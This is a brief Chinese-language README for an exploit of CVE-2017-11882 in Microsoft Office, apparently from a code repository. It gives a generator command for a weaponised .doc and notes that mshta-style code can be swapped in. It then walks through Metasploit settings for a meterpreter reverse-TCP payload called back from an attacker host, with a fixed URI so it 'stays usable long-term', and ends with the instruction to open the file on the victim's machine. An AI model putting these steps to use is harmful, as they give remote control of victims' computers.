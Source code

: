# CVE-2017-11882

> 无弹窗，无视宏，影响Ms offcie全版本

## 简单测试

`python Command43b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc`

## 也有 109b 可供使用

> 可对应添加自己使用的代码 `mshta`等

## 使用已经写好的metasploit 模块使用

`search office_ms17_11882`

`use exploit/windows/fileformat/office_ms17_11882`

`set payload windows/meterpreter/reverse_tcp`

设置生成的文件名字
   `set filename bboysoul.doc`

设置回调uripath 不采用随机，则长期可用
   `set uripath text`

设置主机ip
   `set lhost 172.17.0.2`

开始攻击
   `run -j`

```bash
Using URL: http://0.0.0.0:8080/text
[*] Local IP: http://172.17.0.2:8080/text
[*] Server started.
[+] mydoc.doc stored at /root/.msf4/local/bboysoul.doc
```

之后当前目录下会生成一个叫`bboysoul.doc`的文件，在受害者机器下打开就好

> 经过测试`32`位的`windows`和`office`是不能用的
接着在受害者机器打开这个文件就好了

## 原理

本质上也是回调连接一个攻击机器的uripath ，然后在远程执行这个uri中的payload内容，然后进行连接
